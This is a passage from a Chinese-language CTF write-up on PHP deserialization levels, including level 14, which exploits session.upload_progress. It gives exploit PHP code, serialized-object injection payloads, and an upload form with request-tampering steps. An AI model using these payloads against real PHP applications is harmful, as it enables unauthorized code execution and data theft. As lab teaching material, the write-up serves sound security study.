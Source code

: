 ```php
echo serialize($b);

?>
```



`url/hint.php?a=|O:4:%22Flag%22:2:{s:4:%22name%22;N;s:3:%22her%22;R:2;}`

再访问index.php

**leve14 session.upload_progress**

特此注明：有关这道题其实还可以设置session.upload_cleanup = Off，然后考条件竞争，但是此方式与upload类相关漏洞过于相似，此项目就不设置其作为关卡了，感兴趣的朋友可以自行设置游玩。

exp

```php
<?php
class test{
    public $name;
    function __destruct(){
        if($this->name=='flag'){
            include('flag.php');
            echo $flag;
        }
        else{
            phpinfo();
        }
    }
}
$a=new test();
$a->name='flag';
echo serialize($a);
```

`|O:4:\"test\":1:{s:4:\"name\";s:4:\"flag\";}`

test.html

<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<form id="upload-form" action="http://************/level14/index.php" method="POST" enctype="multipart/form-data">
        <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="test"/>
        上传文件…
        <input name="file1" type="file" />
        <input type="submit" value="上传"/>
    </form>


通过test.html“上传”任意文件，然后抓包，利用payload改包，最后发包，OK

![image-20220311065409439](C:\Users\qte\AppData\Roaming\Typora\typora-user-images\image-20220311065409439.png)
